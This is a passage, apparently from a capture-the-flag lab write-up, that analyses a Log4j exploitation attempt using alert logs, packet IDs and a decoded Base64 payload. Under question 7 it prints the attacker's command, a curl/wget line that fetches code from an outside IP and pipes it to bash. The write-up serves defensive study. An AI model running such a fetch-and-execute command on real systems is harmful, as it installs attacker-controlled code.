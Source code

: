 Answer: `Base64`


### 6. What is the IP ID of the corresponding packet?

For that we have to analyze our `alert`.

I used:
`sudo strings alert |grep 45.155.205.233 -e ID`

(IP from last question)

```bash
12/12-05:06:07.579734 45.155.205.233:39692 -> 198.71.247.91:80
TCP TTL:53 TOS:0x0 ID:62808 IpLen:20 DgmLen:827
```

Answer: `62808`





### 7. What is the attacker's command?


Lets take a look into our `log`in `strings`:

`KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}`


Lets try to decode that.


Answer: 
`(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash`

### 8. What is the CVSS v2 score of the Log4j vulnerability?

I had to do longer research because the most Websites tell you the score : `10.0`
But after a while I found out, that the score is `9.3`


Answer: `9.3`




### Thoughts:

That was a fantastic lab and I really enjoyed creating rules and analyzing stuff. Altough it was a loooon day :-) 
What did we learn?

- Creating rules and alerts to detect malicious traffic or payloads
- Analyzing Logs 
- Understand more about how attacks could look like